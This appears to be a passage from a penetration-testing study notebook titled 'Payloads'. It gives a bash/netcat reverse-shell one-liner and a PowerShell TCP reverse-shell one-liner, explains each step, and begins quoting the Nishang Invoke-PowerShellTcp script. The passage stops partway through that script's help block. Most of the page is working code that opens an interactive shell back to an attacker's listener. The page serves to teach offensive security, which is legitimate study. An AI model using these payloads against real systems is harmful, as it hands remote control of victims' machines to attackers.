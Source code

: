 # 🤹‍♂️ Payloads

It's good to understand what is a payload and understanding what the payload does rather than just pasting it

**Netcat/Bash Reverse Shell One-liner**&#x20;

```shell-session
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.12 7777 > /tmp/f
```

So here we delete tmp/f if it exists, then we Make a [FIFO named pipe file](https://man7.org/linux/man-pages/man7/fifo.7.html) called /tmp/f is the FIFO named pipe file, the semi-colon (`;`) is used to execute the command sequentially.

`2>&1` ensures the standard error data stream (`2`) `&` standard output data stream (`1`) are redirected to the command following the pipe

**Powershell One-liner**

```cmd-session
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

We first execute `powershell.exe` with no profile (`nop`) and executes the command/script block (`-c`)

Then we set the `$client` equal to (`=`) the `New-Object` cmdlet, which creates an instance of the `System.Net.Sockets.TCPClient` .NET framework object. The .NET framework object will connect with the TCP socket listed in the parentheses `(10.10.14.158,443)`. The semi-colon (`;`) ensures the commands & code are executed

Then we set `$stream` equal to (`=`) the `$client` variable and the .NET framework method called [GetStream](https://docs.microsoft.com/en-us/dotnet/api/system.net.sockets.tcpclient.getstream?view=net-5.0) that facilitates network communications.

Then we Create a byte type array (`[]`) called `$bytes` that returns 65,535 zeros as the values in the array. This is essentially an empty byte stream that will be directed to the TCP listener on an attack box awaiting a connection.

The one-liner we just examined can also be executed in the form of a PowerShell script (`.ps1`)

```powershell
function Invoke-PowerShellTcp 
{ 
<#
.SYNOPSIS
Nishang script which can be used for Reverse or Bind interactive PowerShell from a target. 
.DESCRIPTION
This script is able to connect to a standard Netcat listening on a port when using the -Reverse switch. 
Also, a standard Netcat can connect to this script Bind to a specific port.
The script is derived from Powerfun written by Ben Turner & Dave Hardy
.PARAMETER IPAddress
The IP address to connect to when using the -Reverse switch.
.PARAMETER Port
The port to connect to when using the -Reverse switch. When using -Bind it is the port on which this script listens.
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444
Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on 
the given IP and port. 
.EXAMPLE
```
